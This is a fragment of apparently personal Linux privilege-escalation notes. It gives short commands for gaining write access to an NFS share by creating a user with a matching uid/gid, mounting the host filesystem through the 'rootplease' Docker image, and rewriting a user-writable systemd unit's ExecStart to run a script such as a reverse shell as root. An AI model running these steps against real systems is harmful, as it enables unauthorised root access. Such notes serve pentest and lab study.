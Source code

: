 ## check uid y gid
```
ls -lan
```

## create user in kali
```
root@kali:/tmp/peter# groupadd -g 1005 peter
root@kali:/tmp/peter# adduser peter -uid 1001 -gid 1005
root@kali:/tmp/peter# su peter
```
now we have write access to the nfs volume  
&nbsp;
# 8 DOCKER
---
rootplease
```
docker run -v /:/hostOS -i -t chrisfosterelli/rootplease
```
&nbsp;
# 9 ver gtfobins
---
https://gtfobins.github.io/
&nbsp;
# 10 systemd
---
## check
```
ls -la /lib/systemd/system/
debug.system is owned by peter
```
## change
then we can change /lib/systemd/system/debug.system ExecStart= to a script that we want to run as root (ej reverseshell)
## restart service
probably we need to reboot the box
